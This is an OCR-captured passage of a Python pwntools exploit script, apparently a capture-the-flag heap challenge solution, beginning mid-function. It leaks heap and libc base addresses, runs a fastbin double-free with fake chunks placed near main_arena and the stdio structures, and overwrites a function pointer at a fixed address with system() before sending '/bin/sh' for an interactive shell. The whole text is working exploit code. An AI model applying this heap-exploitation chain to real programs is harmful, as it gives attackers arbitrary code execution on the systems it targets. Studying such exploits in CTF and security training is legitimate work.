 ```python

    show(2)
    p.recvuntil('content: ')

    heap_base = u64(p.recvn(8)) - 0x230
    print("heap_base is "+ hex(heap_base))

    main_arena = u64(p.recvn(8)) - 248
    print('main_arena addr is ' + hex(main_arena))
    
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook']
    print('libc_base is ' + hex(libc_base))

    system_addr = libc_base + libc.symbols['system']
    print("system addr is " + hex(system_addr))

    delete(3)
    delete(2)

    fake_fastbin = libc_base + libc.symbols['_IO_2_1_stderr_'] + 165 - 8

    add(0x60, 'dddd', p64(0x60))
    add(0x60, 'dddd', 'eeee')
    add(0x60, 'dddd', 'eeee')

    #add(0x60, 'dddd', 'a'*0x26 + p64(0xdeadbeaf))
    #add(0x60, 'dddd', 'a'*0x13)

    add(0x40, 'dddd', 'eeee')
    add(0x50, 'dddd', 'eeee')
    add(0x50, 'd'*0x10, 'eeee')
    add(0x50, 'dddd', 'eeee')

    delete(5)
    delete(7)
    delete(6)

    fake_fastbin = libc_base + libc.symbols['_IO_2_1_stdout_'] + 165 - 8

    add(0x50, 'dddd', p64(main_arena + 0x28))
    add(0x50, 'dddd', 'eeee')
    add(0x50, 'dddd', 'eeee')
    #gdb.attach(p, open('debug'))
    add(0x50, 'dddd', p64(0) * 4 + p64(0x602058)) 

    add(0x40, 'dddd', p64(system_addr))
    p.sendline('/bin/sh')
    p.interactive()

if __name__ == '__main__':
    pwn()
```
